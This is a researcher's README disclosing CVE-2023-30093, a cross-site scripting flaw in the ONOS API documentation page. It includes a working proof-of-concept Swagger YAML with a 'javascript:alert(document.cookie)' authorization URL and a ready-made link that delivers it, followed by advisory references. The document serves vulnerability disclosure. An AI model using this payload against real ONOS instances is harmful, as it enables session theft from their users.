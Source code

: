 # CVE-2023-30093

Description
------

A cross-site scripting (XSS) vulnerability in Open Networking Foundation ONOS from version v1.9.0 to v2.7.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the url parameter of the API documentation dashboard.

PoC
------

PoC for CVE-2023-30093: [@edoardottt Youtube video](https://www.youtube.com/watch?v=jZr2JhDd_S8)

Vulnerable endpoint: <http://localhost:8181/onos/v1/docs/>

Payload:

```yaml
swagger: "2.0"
info:
  title: edoardottt XSS
  description: XSS ONOS POC
  version: 1.0.0
host: edoardoottavianelli.it
basePath: /v1
schemes:
  - https

securityDefinitions:
  OAuth2:
    type: oauth2
    flow: accessCode
    authorizationUrl: javascript:alert(document.cookie)//
    tokenUrl: https://example.com/oauth/token
    scopes:
      read: Grants read access
      write: Grants write access
      admin: Grants read and write access to administrative information
```

PoC URL ready to be delivered: <http://localhost:8181/onos/v1/docs/?url=https://gist.githubusercontent.com/edoardottt/917636d9b210d0b15c3a10cfff35ab33/raw/659a4ae263287dff740f386db4533ca042203cfe/onos-xss2-poc.yaml>

References
------

- <https://www.edoardoottavianelli.it/CVE-2023-30093>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-30093>
- <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-30093>
- <https://github.com/advisories/GHSA-q63q-hwf6-3mw6>
- <https://www.tenable.com/cve/CVE-2023-30093>
- <https://www.opencve.io/cve/CVE-2023-30093>
- <https://avd.aquasec.com/nvd/2023/cve-2023-30093/>
- <https://cve.report/CVE-2023-30093>
- <https://security.snyk.io/vuln/SNYK-JAVA-ORGONOSPROJECT-5497342>

<br>

Useful links while researching for this CVE:

- <https://github.com/swagger-api/swagger-ui/pull/3848>
- <https://github.com/swagger-api/swagger-ui/issues/3847>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9>
- <https://github.com/swagger-api/swagger-ui/commit/f87eaaa81073a61e30ff0cedee4fd9cd2dd1fca9#diff-f510249cd192f2f011846a9640aebfd0c96995e744aa55e3b1c2e541da62a9ef>
- <https://security.snyk.io/vuln/npm:swagger-ui:20171031>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160721>
- <https://security.snyk.io/vuln/npm:swagger-ui:20160901>
